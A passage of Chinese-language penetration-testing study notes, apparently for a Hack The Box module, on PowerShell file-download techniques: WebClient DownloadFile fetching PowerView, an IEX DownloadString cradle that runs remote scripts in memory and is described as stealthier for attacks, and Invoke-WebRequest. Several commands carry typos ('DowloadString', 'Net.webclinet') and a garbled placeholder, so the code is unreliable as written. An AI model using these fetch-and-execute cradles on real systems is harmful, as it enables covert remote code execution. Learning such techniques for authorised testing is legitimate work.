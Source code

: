 -Alogrithm md5 这是 指定了使用的哈希算法 md5的值 并且md5 不在那么安全        
注：window中哈希值可能过于长  webshell可能会出错  
cmd 的最大字符串为8191个字符  如果发送过长的可能导致无法接受 


### powershell网络下载


具体脚本powershell的脚本信息 ：https://gist.github.com/HarmJ0y/bb48307ffa663256e239 


虽然可以通过笨拙的形式从网络上下载.exe但是可能会被一些公司拦截 

##### 方法一：使用 net.webclient 和 Downloadfile

命令为
```powershell-session
PS C:\htb> # Example: (New-Object Net.WebClient).DownloadFile('<目标的瞎子啊文件的url>','<下载文件的路径>'或者 ，'具体下载文件保存的文件名字全称')


PS C:\htb> # Example: (New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
PS C:\htb> (New-Object Net.WebClient).DownloadFileAsync('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1', 'PowerViewAsync.ps1')
```
第一个的含义是 调用 （New-object  net.webclient）类 的具体方法为 downloadfile方法 
并写入 url跟路径  或者是具体下载的文件名字    （必须有路径）名字可选
第一个第二个的区别在于同步跟异步 
1其中同步的思想是 在进行我这个操作的时候 谁也不许站  必须等待代码运行完成后在进行
2异步是 产生回调函数  ，这个函数会反馈给 系统 让系统在执行 该段代码的同时可以 同时进行其他的任务






##### 方法二 采用downloadstring 的无文件方法 
具体是 直接干到内存 不需要存储在磁盘 直接进入到内存中  攻击更隐蔽 具体信息在：
https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-7.2
具体命令如下 :
```这是window的
IEX (NEW-Object Net.WebClient).DowloadString('下载的url')
```
会立刻并在内存中执行这段操作  这个脚本从 目标url中下载后不会到磁盘而是直接注入到内存中直接执行  突出一个隐蔽性跟 可操作性
其中iex接受管道输入 
```
(NEW-Object Net.webclinet).dowloadstring('下载的url') | IEX
```
这种形式用iex形式进行 


#### 方法三：调用webrequest   
版本在powershell3.0开始  
invoke webrequest 也可以用 别名是：iwr curl wget
全名是 invok webrequest   
https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.2
